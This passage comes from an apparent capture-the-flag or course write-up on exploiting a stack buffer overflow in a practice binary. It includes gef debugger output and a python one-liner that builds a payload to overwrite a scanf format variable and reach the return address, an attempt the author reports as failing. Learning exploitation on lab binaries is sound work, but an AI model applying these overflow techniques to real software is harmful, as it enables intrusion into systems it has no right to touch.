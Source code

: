 ```sh
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/wx $ebp+0x4
0xffffcf7c:     0xf7c21519
```

- However, this doesn't even come close to the return address.
- It doesn't even crash the program regardless of how large input I give it.
    - For both buffers I can specify 30 characters at max.

## Idea #3

- Let's try overflowing `scanf_format` from the first buffer, so that we can extend our input to more characters.
- This way we can overwrite the return address.
- Supplying 24 A's and you can overwrite the `scanf_format` variable:

```sh
gef➤  x/wx $ebp-0x5
0xffffcf73:     0x41414141
gef➤  x/wx $ebp
0xffffcf78:     0xf7ffd020
```

- So to reach `scanf_format` it takes 20 bytes, next 4 bytes __will be our defined format specifier.__
- I've generated my input as:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\x73\x30\x39\x25")' > input.txt
```

- The only way to verify if this worked is to try to `scanf` more than 30 characters (I've set it to 90 characters, which should be enough).
- Nope, this doesn't work as expected.

```sh
gef➤  x/s $ebp-0x5
0xffffcf73:     "%90sAAAAAA"
gef➤  x/s $ebp+0x4
0xffffcf7c:     "A"
gef➤  x/wx $ebp+0x4
0xffffcf7c:     0xf7c20041
```

- It still changes only the last byte of the return address.
- ~~However I've just noticed something in ghidra that could be used.~~
- It's format specifier but that's not limited by any number of characters:
